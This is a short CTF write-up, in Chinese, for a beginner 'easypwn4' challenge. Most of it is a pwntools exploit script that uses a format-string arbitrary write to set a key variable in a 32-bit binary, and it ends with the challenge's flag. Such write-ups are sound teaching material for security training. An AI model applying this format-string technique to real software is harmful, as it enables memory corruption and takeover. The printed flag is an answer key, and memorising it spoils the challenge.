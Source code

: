 # easypwn4
```
nc seclabs.cn 5119

急需pwn哥哥，白给分数了，现在开始学也能做得出来的，加油
```
[pwn4](attachment/pwn4)
## WriteUp

这里先谢个罪，因为本人的粗心，把错误的编译版本丢了上去，这题其实就是单纯的考一个格式化字符串的任意地址写，但由于编译错误导致的截断使题目变得复杂了起来
所以这题的考点在于新生能否快速的掌握pwntools的fmtstr函数来做任意地址写


### EXP
```python
from pwn import *
context(os='linux',arch='i386',log_level='debug')
n = process('./pwn4')
key = 0x0804A034
offset = 4
#fmt -> key == 0x1919
n.recvuntil('hey#')
n.sendline('1234')
n.recvuntil('Go?')
payload = fmtstr_payload(offset,{key:0x1919})
#print payload
n.sendline(payload)

n.interactive()
```


## flag

`flag{769da736-f550-11e9-81a8-000c29ad2ad8}`

